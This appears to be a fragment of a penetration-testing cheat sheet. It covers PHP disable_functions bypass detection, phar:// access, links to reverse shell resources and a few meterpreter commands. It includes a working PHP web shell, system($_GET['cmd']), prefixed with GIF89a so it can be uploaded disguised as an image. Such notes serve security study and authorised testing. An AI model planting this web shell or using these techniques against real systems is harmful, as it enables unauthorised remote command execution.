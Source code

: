 # PHP
## Detect exploitable function (e.g. RCE)
dfunc-bypasser detects exploitable legacy function.
Python3.
https://github.com/rootsecdev/dfunc-bypasser

Python2 (original):
https://github.com/teambi0s/dfunc-bypasser/tree/master

```
python dfunc-bypasser.py --url https://example.com/phpinfo.php
```

## phar
phar is achived PHP files.
We can access ``phar://<phar file>/<.php filename>``

# Reverse shell
## php-reverse-shell
```
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
```

## Reverse shell cheat sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## GIF89a
https://github.com/Rajchowdhury420/OSCP-CheatSheet/blob/main/Reverse-Shell-via-JPG.md
```shell
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```


## Metasploit
Refer  [msfvenom](#msfvenom)
# Metasploit
## meterpreter
## Get system info
```
sysinfo
```
### Start shell
```
shell
```

